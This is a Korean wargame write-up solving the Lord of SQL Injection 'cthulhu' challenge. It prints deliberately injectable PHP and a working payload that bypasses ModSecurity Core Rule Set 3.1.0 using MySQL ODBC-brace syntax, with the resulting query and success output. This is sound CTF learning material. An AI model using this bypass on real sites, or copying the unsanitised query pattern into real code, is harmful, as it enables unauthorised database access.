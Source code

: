 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - cthulhu 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


며칠 전, 2번에 걸쳐서 `LoS`의 문제가 업데이트 되었다.  

이번이 랭킹에 이름을 올릴 수 있는 기회이길래 얼른 다 풀었다.  

까먹기 전에 정리를 해 두려 한다.  

첫 번째 문제 이름은 `cthulhu`이다.  

<!--more-->

코드는 다음과 같다.  

```php
modsec.rubiya.kr server is running ModSecurity Core Rule Set v3.1.0 with paranoia level 1(default).
It is the latest version now.(2019.05)
Can you bypass the WAF?
-------------------------------------------------------------
query : select id from prob_cthulhu where id='' and pw=''
-------------------------------------------------------------

<?php
  include "./welcome.php";
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_cthulhu where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("cthulhu");
  highlight_file(__FILE__);
?>
```

문제의 소스코드 자체는 어렵지 않다.  

그런데 `ModSecurity Core Rule Set v3.1.0` 이라는 방화벽이 추가되어 있다.  

그래서 흔히 사용하는 방법으로 `SQL Injection`을 시도하면 자꾸 `Forbidden Error`가 나온다.  

때문에 방화벽을 우회 해 문제를 풀어야 한다.  

일단 나는 `ModSecurity Core Rule Set`이 뭔지를 몰라서 구글에 검색을 해 보았다.  

그러다 아래와 같은 사이트를 찾았다.  

[https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181)

여기에 적힌 방법 중 아래의 방법으로 문제를 풀 수 있었다.  

```
-1'<@=1 OR {a 1}=1 OR '
```

이 내용을 문제에 적용하면 다음과 같다.  

```
id=-1'<@=1 OR 1=1 OR '&pw=a
```

`{a 1}=1` 부분은 `1=1`로 변경했다.  

해당 구문이 이해가 되지 않아서였는데, `{a 1}=1`은 테스트 해 보면 `true`가 되며, `select {a 1}`을 하면 `1`이 나온다.  

아마도 아래의 이유 때문인 것 같은데, 정확하지 않아서 연구를 더 해봐야 알 것 같다.  

[https://dev.mysql.com/doc/refman/5.7/en/expressions.html](https://dev.mysql.com/doc/refman/5.7/en/expressions.html)

```
{identifier expr} is ODBC escape syntax and is accepted for ODBC compatibility. The value is expr. The { and } curly braces in the syntax should be written literally; they are not metasyntax as used elsewhere in syntax descriptions.
```

어쨌든 해당 쿼리를 전달하면, 최종적으로 완성되는 쿼리는 다음과 같다.  

```
select id from prob_cthulhu where id='-1'<@=1 OR 1=1 OR '' and pw='a'
```

`where` 절의 조건을 살펴보면 크게 `id='-1'<@=1`, `1=1`, `'' and pw='a'`로 나눌 수 있을 것이다.  

먼저 첫 번째 조건인 `id='-1'<@1`의 경우, `'-1'<@1`이 `NULL`이 되면서 `id=NULL`로 만들어진다.  

당연히 `id=NULL`인 행은 없기 때문에 다음 조건으로 넘어가게 된다.  

이 때 두 번째 조건은 `1=1` 이므로 참이 되어 디비에서 값을 추출할 수 있게 된다.

문제에서는 `id`의 값이 무엇이든, `id`를 추출할 수 있기만 하면 되므로, 위의 쿼리를 통해 문제를 풀 수 있다.  

```php
modsec.rubiya.kr server is running ModSecurity Core Rule Set v3.1.0 with paranoia level 1(default).
It is the latest version now.(2019.05)
Can you bypass the WAF?
---------------------------------------------------------------------------------------
query : select id from prob_cthulhu where id='-1'<@=1 OR 1=1 OR '' and pw='a'
---------------------------------------------------------------------------------------

CTHULHU Clear!
<?php
  include "./welcome.php";
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_cthulhu where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("cthulhu");
  highlight_file(__FILE__);
?>
```

`CTHULHU Clear!`
